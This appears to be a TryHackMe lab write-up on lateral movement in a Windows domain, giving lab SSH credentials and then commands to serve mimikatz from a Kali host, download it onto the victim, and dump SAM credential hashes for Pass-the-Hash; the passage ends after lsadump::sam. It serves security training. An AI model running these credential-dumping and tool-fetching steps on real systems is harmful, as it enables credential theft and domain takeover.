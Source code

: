 To begin this exercise, you will need to connect to THMJMP2 using the following credentials via SSH:

**User:** ZA.TRYHACKME.COM\t2\_felicia.dean

**Password:** iLov3THM!

`ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com`

These credentials will grant you administrative access to THMJMP2, allowing you to use mimikatz to dump the authentication material needed to perform any of the techniques presented during this task.

Using your SSH session, use mimikatz to extract authentication material and perform Pass-the-Hash, Pass-the-Ticket or Pass-the-Key against domain user `t1_toby.beck`.

**Kali**

```
git clone https://github.com/ParrotSec/mimikatz.git
python3 -m http.server
```

**Victim**

```
cd C:\tools
powershell
wget http://$KALI:8000/mimikatz.exe -O mimikatz.exe
.\mimikatz.exe 
```

#### Option #1 - Pass-the-Hash

**Victim(mimikatz)**

```
privilege::debug
token::elevate
```

<figure><img src="../../.gitbook/assets/image (2) (11).png" alt=""><figcaption></figcaption></figure>

**Victim(mimikatz)**

```
lsadump::sam
```
